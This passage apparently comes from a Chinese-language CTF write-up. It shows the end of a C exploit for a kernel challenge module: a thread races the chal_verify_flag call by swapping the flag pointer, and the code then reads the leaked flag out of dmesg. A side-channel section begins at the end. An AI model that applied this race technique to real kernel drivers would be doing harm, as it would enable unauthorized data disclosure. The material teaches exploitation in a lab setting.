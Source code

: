 ```c
    printf(SUCCESS_MSG("[+] flag addr: ") "%p\n", flag_kaddr);

    pthread_create(&race_thread, NULL, race_thread_fn, NULL);

    while (flag_not_found) {
        for(int i = 0; i < race_times; i++) {
            flag.flag_addr = fake_flag;
            chal_verify_flag(fd, &flag);
        }

        system("dmesg | grep flag > /tmp/result.txt");
        result_fd = open("/tmp/result.txt", O_RDONLY);
        read(result_fd, tmp_buf, 0x1000);
        if (strstr(tmp_buf, "flag{")) {
            flag_not_found = 0;
        }
    }

    pthread_cancel(race_thread);

    log_success("[+] race done and flag got!");
    system("dmesg | grep -i flag > /tmp/flag.txt");
    flag_fd = open("/tmp/flag.txt", O_RDONLY);
    if (flag_fd < 0) {
        perror(ERROR_MSG("[x] Unable to open flag file"));
        exit(EXIT_FAILURE);
    }

    tmp_buf[read(flag_fd, tmp_buf, 0x1000)] = '\0';
    flag_addr = strstr(tmp_buf, "So here is it ")+strlen("So here is it ");
    printf(SUCCESS_MSG("[+] Got flag: "));
    fflush(stdout);
    for (int i = 0; flag_addr[i] && flag_addr[i] != '\n'; i++) {
        putchar(flag_addr[i]);
    }

    puts("");
}

int main(int argc, char **argv, char **envp)
{
    exploit();

    return 0;
}

```

### Extra. 侧信道攻击

题目在进行比对时并没有检验 flag 地址的合法性，考虑如下内存布局：
